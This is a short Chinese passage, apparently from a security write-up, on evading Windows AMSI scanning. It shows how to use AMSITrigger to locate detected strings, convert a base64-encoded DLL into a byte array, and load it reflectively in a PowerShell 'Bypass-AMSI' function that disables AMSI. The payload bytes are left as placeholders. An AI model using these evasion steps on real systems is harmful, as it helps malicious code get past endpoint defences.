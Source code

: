 落地就被杀

[![](assets/1709530518-36874b11c16163a1acbfe3bcd75a3c3f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240303102124-bbbcdb9c-d904-1.png)

接下来我们用[https://github.com/RythmStick/AMSITrigger来进行定位哪些内容被查杀。](https://github.com/RythmStick/AMSITrigger%E6%9D%A5%E8%BF%9B%E8%A1%8C%E5%AE%9A%E4%BD%8D%E5%93%AA%E4%BA%9B%E5%86%85%E5%AE%B9%E8%A2%AB%E6%9F%A5%E6%9D%80%E3%80%82)

这里我放到本地进行检测 ps1 文件的话一直被杀，所以我放到了云服务器上使用-u 参数进行检测。

[![](assets/1709530518-c989bd9ecd3006e8fc130037fc719b68.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240303102136-c2b2594a-d904-1.png)

由于 base64 编码后的内容也被杀了，我们直接 base64 编码转换成 byte 数组。

```plain
$string = ''
 $a = [System.Convert]::FromBase64String('你的 base64 编码')
 $a | foreach {$string = $string + $_.ToString()+','}
 $string
```

然后修改我们的加载脚本，加载数组

```plain
function Bypass-AMSI
{
    if(-not ([System.Management.Automation.PSTypeName]"Bypass.AMSI").Type) {
        [Reflection.Assembly]::Load([byte[]]@(这里是上面得到的 byte 数组)) | Out-Null
        Write-Output "DLL has been reflected";
    }
    [Bypass.AMSI]::Disable();
}
```
